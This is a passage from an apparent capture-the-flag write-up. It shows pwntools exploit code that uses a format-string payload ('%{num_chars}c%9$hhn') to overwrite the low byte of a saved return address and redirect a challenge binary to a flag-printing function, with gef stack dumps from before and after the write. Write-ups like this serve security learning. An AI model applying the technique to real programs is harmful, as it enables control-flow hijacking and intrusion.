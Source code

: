 I also need to trigger the write together with my write address. But since there
are null bytes at the start of $rip, I'll need to shift the address to the end,
changing my offset to 9 instead.

```py
    setup_buffer(p)

    p.sendline(b'1')
    p.sendline(b'a'*10)

    # here, I just want the last byte of vent
    num_chars = int(hex(elf.sym.vent)[-2:], 16)
    payload = f'%{num_chars}c%9$hhn'
    p.sendline(b'1')
    p.sendline(payload)

    p.sendline(b'1')
    p.sendline(b'pinkaaaa' + p64(rip))
```

(if you're confused about why I write to the start of $rip when I actually want
to control the last byte, do read up on little endian)

As a PoC, here's the stack before my write:

```
gef➤  telescope 0x007fffb9f9a340
0x007fffb9f9a340│+0x0000: 0x007fffb9f9a370  →  0x007fffb9f9a390  →  0x0000000000000001	← $rsp
0x007fffb9f9a348│+0x0008: 0x0000000231000000
0x007fffb9f9a350│+0x0010: 0x6100000a6b6e6970 ("pink\n"?)
0x007fffb9f9a358│+0x0018: 0x616161616161000a ("\n"?)
0x007fffb9f9a360│+0x0020: 0x00000000000a61 ("a\n"?)
0x007fffb9f9a368│+0x0028: 0x1bd98944c0702700
0x007fffb9f9a370│+0x0030: 0x007fffb9f9a390  →  0x0000000000000001	← $rbp
0x007fffb9f9a378│+0x0038: 0x0055ef72c6c4be  →  <main+131> mov eax, 0x0
0x007fffb9f9a380│+0x0040: 0x0000000000000000
0x007fffb9f9a388│+0x0048: 0x1bd98944c0702700
```

and after my write:
```
gef➤  telescope 0x007fffb9f9a340
0x007fffb9f9a340│+0x0000: 0x007fffb9f9a370  →  0x007fffb9f9a390  →  0x0000000000000001	← $rsp
0x007fffb9f9a348│+0x0008: 0x0000000231000000
0x007fffb9f9a350│+0x0010: 0x616161616b6e6970
0x007fffb9f9a358│+0x0018: 0x007fffb9f9a378  →  0x0055ef72c6c4d9  →  <vent+0> endbr64 
0x007fffb9f9a360│+0x0020: 0x0000000000000a ("\n"?)
0x007fffb9f9a368│+0x0028: 0x1bd98944c0702700
0x007fffb9f9a370│+0x0030: 0x007fffb9f9a390  →  0x0000000000000001	← $rbp
0x007fffb9f9a378│+0x0038: 0x0055ef72c6c4d9  →  <vent+0> endbr64 OVERWRITTEN!! :)
0x007fffb9f9a380│+0x0040: 0x0000000000000000
0x007fffb9f9a388│+0x0048: 0x1bd98944c0702700
```

Afterwards, I can just exit `vuln` to jump to `vent` and cat the flag. :)
